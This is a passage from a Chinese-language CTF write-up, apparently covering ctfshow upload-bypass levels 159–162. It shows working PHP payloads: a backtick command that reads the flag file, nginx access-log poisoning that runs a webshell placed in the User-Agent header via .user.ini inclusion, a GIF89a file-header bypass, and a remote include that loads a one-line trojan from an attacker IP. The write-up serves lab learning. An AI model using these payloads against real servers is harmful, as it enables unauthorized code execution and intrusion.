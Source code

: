 解决思路：使用反引号，结合通配符  
  
```
1构造payload：<?=`tac ../fl*`?>

```  
  
  
  
**160关：日志文件包含**  
  
  
这一关连反引号都过滤了，1.png里面包含后门的全部失效。  
  
Nginx一般会记录日志，日志会记录访问者的UA头，所以我们可以把后门代码写到UA头里面，然后利用.user.ini来包含日志文件，Nginx默认日志位置/var/log/nginx  
  
首先上传文件.user.ini，在上传图片  
  
图片中的内容  
  
```
1<?=include"/var/lo"."g/nginx/access.lo"."g"?>

```  
  
  
这时访问upload目录，得到了nginx日志信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFW63WVicKTYOW2nPlfREFM5Y9hs3HiaaWc4IibJEcrRRMxJ9ljSDx5icR3FA/640?wx_fmt=png&from=appmsg "")  
  
此时我们可以在UA头中写入后门代码。 将日志文件包含解析，我们将UA写入日志文件，进而解析后门代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFWthnCwEaYwwbq1LYAc4UicIBDsfFricv17icib07iar1nqbxjWG1JpxHjF3w/640?wx_fmt=png&from=appmsg "")  
  
  
**161关：文件头检测**  
  
  
加上了对文件头的检测，GIF89A，  
  
解决思路：在上传的文件中加入，GIF89A，再延续160关的思路即可  
  
  
**162关：过滤****.**  
  
  
这一关不仅是检测了文件头，也过滤了()、[]、{}、.这些，所以我们可以将.user.ini的内容写为  
  
```
1GIF89a
2auto_prepend_file=png

```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFWMpoJmGwN5hAI3Y8Zpde3j1zREFFJiaWAhwgsP360rn0p9XYaISbx8bQ/640?wx_fmt=png&from=appmsg "")  
  
我们可以远程包含文件，然后这个文件里面有一句话木马，这边需要用到IP转换地址，将IP转换为纯数字 网址：在线ip转int,ip转数字-BeJSON.com  
  
```
1GIF89a
2<?=include'http://IP转换/文件名'>3

```  
  
